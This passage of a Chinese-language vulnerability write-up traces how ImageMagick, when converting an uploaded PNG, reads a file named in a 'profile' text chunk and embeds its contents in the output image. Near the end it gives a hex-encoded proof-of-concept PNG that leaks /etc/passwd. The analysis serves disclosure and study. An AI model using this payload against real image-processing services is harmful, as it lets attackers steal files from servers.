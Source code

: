 漏洞利用路径执行：  
  
上传图像以触发ImageMagick命令，比如“convert”  
  
ReadOnePNGImage（coders/ png.c: 2164）：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWtFicQgwp0BOEm1iavE0zImlDm9N0DkQhciaLRnz9KeWPPKFCBzichibYZKbA/640?wx_fmt=png "")  
  
图11  
  
读取tEXt文本块：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWt5CPREkcYK9R4jHU9XumMBoTJCvA6kdjibMAtbOicFcBPBQgxARpbjQ6g/640?wx_fmt=png "")  
  
图12  
  
SetImageProfile（MagickCore / property.c: 4360）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWtbvfEpeansNhWAX4ZLRaw6XaS7zSqybic1BYJXamqot1EDFfDzd3PHFA/640?wx_fmt=png "")  
  
图13  
  
检查关键字是否等于“profile”：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWt19bn5E5ddb2Wc5T4FnJxz5vROL8zLN7Jqg3s42BxC5oicXFDfSzQtWA/640?wx_fmt=png "")  
  
图14  
  
在第4720行将文本字符串复制为文件名，在第4722行保存内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWtLVGjl0rP0PjknBicPQibFc5jggUdt2YMUXiblo7qq84GXRuMRpgNxq3aw/640?wx_fmt=png "")  
  
图15  
  
FileToStringInfo将内容存储到string_info->datum（MagickCore/string.c:1005）：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWtq5YWHcOv77lzaoGF5dVfEaNffrfyqVdAYQSFXzKTZ4et6iaDmVINBTA/640?wx_fmt=png "")  
  
图16  
  
如果提供了一个有效（且可以访问）的文件名，内容将返回给调用者函数（FileToStringInfo）， StringInfo对象将返回给SetImageProperty函数，将blob保存到生成的新图像中，这要感谢SetImageProfile函数：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWtK1Q9V2gDrNYKH27trxsRyBFGFrLseeo8iawh0EiauW2srjYSDsGkfIFQ/640?wx_fmt=png "")  
  
图17  
  
这个新图像可供攻击者下载，其中嵌入了任意网站文件内容。  
  
PoC：恶意PNG内容泄露“/etc/passwd”文件：  
  
89504e470d0a1a0a0000000d4948445200000001000000010100000000376ef9240000000a49444154789c636800000082008177cd72b6000000147445587470726f66696c65002f6574632f70617373776400b7f46d9c0000000049454e44ae426082  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VwC7PK34uZcxX7x73nNWtGvyibfqw1dsVjXJt69yNlI66iadXb469qM1ogibouFHJQiba9booIMgF5g/640?wx_fmt=png "")  
  
图18  
  
证据：  
  